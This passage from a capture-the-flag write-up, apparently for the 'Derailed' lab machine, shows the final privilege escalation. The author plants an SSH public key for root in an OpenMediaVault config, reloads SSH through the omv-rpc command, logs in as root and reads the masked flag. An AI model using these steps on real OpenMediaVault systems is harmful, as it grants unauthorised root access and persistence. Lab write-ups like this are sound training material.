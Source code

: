 ```apacheconf
        "email": "",
        "name": "root",
        "sshpubkeys": {
            "sshpubkey": [
                "---- BEGIN SSH2 PUBLIC KEY ----\nComment: \"3072-bit RSA, converted by kali@kali from OpenSSH\"\nAAAAB3NzaC1yc2EAAAADAQABAAABgQCygxvpS...---- END SSH2 PUBLIC KEY ----\n"
            ]
        },
        "uuid": "e3f59fea-4be7-4695-b0d5-560f25072d4a"
    }
]
```

To make it work, I require the SSH module to refresh. I use the config RPC to reload the SSH module.

{% code overflow="wrap" %}
```apacheconf
openmediavault-webgui@derailed:~$ /usr/sbin/omv-rpc -u admin "config" "applyChanges" "{ \"modules\": [\"ssh\"], \"force\": true }"
null
```
{% endcode %}

After it's done, I can use my key to log in as root

```
msplmee@kali:~/.ssh$ ssh -i id_rsa root@10.10.11.190
Linux derailed 5.19.0-0.deb11.2-amd64 #1 SMP PREEMPT_DYNAMIC Debian 5.19.11-1~bpo11+1 (2022-10-03) x86_64
...
permitted by applicable law.
root@derailed:~# id
uid=0(root) gid=0(root) groups=0(root)
root@derailed:~# cat root.txt 
511*****************************
```
